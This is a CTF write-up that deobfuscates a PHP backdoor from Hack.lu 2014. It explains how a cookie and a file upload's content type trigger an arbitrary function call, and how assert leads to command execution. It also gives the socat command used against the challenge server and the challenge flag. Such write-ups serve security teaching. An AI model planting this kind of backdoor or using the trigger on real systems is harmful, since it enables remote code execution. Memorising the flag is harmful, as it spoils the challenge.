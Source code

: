 # Hack.lu CTF 2014: Next Global Backdoor

**Category:** Web
**Points:** 150
**Author:** reiners
**Description:**

> J0nas is a simple man. He specializes in only one thing: Building the most beautiful back doors that you’ve ever seen. This gem was used in multiple saloons, letting only the most skilled c0wb0ys pass.
>
> <https://wildwildweb.fluxfingers.net:1425/index.php>
> [index.phps](index.phps)

## Write-up

Let’s reformat the PHP source first:

```php
$GLOBALS
=
$GLOBALS{next}
=
next($GLOBALS{'GLOBALS'})[
	$GLOBALS['next']['next']
	=
	//* DELME */ var_dump(__LINE__, current($GLOBALS)) ? next($GLOBALS) :
	next($GLOBALS)['GLOBALS']
][
	$next['GLOBALS']
	=
	//* DELME */ var_dump(__LINE__, current($GLOBALS[GLOBALS]['GLOBALS'])) ? next($GLOBALS[GLOBALS]['GLOBALS'])[ $next['next'] ] :
	next($GLOBALS[GLOBALS]['GLOBALS'])[
		$next['next']
	]
][
	$next['GLOBALS'] = next($next['GLOBALS'])
][
	//* DELME */ var_dump(__LINE__, $GLOBALS[next]) ? $GLOBALS[next]['next']( $GLOBALS['next']{'GLOBALS'}) :
	$GLOBALS[next]['next'](
		$GLOBALS['next']{'GLOBALS'}
	)
]
=
next(neXt(${'next'}['next']));
```

Basically, a whole bunch of array pointer fun. You can see that there is one “dynamic” function call. At first glance, it looks like we can execute an arbitrary function with an argument of our choice if we can control the contents of `$GLOBALS[next]['next']` and `$GLOBALS['next']{'GLOBALS'}`. However, there is more to it than that. :-)

[`next`](https://php.net/next) moves the internal array pointer by one spot, and [`$GLOBALS`](https://php.net/globals) is a built-in array of global variables. By default, it contains the so-called [superglobals](https://php.net/superglobals), i.e. `$_GET`, `$_POST`, `$_COOKIE`, `$_FILES` and `$_SERVER` (depending on [`variables_order`](https://php.net/variables_order)), and `$GLOBALS` itself.

Because I suck at debugging (I have never used [Xdebug](http://xdebug.org/)), I sprinkled in a few `/* DELME /* var_dump()` lines to see what the current entry in each step was. It was hard for me to parse by reading because of all the variable variables and `next`’ing, so I also added a `source` entry to the `GET`, `POST`, and cookie arrays.

At the very start, the `$GLOBALS` array pointer points to `$_GET`. The first call to `next()` points it to `$_POST`, but another call advances it to `$_COOKIE`. (I found this hard to parse by reading because of the right-to-left interpretation mixed with the code inside the array keys — hence the `var_dump`.)

It then reads the value for the `GLOBALS` key, i.e. `$_COOKIE['GLOBALS']`. This will be the the name of the function to call, and the name of the file input under consideration when doing another `next($GLOBALS)`. After that third `next()`, we are at the `$_FILES` array (i.e., `$GLOBALS['_FILES_]`). The `next()` call on the `$_FILES[$_COOKIE['GLOBALS']]` entry advances that file array’s pointer to the second key, which is the content type. That value is used as the argument to the function call.

TL;DR The function in `$_COOKIE['GLOBALS']` is called with `$_FILE[$_COOKIE['GLOBALS']]['type']` as its only argument.

So, in short: leave `$_GET` and `$_POST` empty, set a cookie called `GLOBALS` with the name of the PHP function to call, add a file whose input name is that function name, and whose content type is the argument. (And ignore all the times `next` is used as an array key, be it as a string or as an (undefined) constant.)

Note that because [`eval`](https://php.net/eval) is not a function but a language construct, you cannot use it as the function to call. Use [`assert`](https://php.net/assert) instead.

Finally, here is an [example request](request.txt) (note the DOS line endings) which allows you to specify a shell command to run as a query string parameter.

You might need to [download the StartSSL root certificate](https://www.startssl.com/certs/ca-bundle.pem) first:

```bash
$ wget https://www.startssl.com/certs/ca-bundle.pem
```

Then, perform the request like this:

```bash
$ socat openssl:wildwildweb.fluxfingers.net:1425,cafile=./ca-bundle.pem stdio < request.txt
```

Eventually we found the flag in `/flag.txt` on the server. The flag is `flag{backdoor_business_is_hard,_fella}`.

## Other write-ups and resources

* none yet
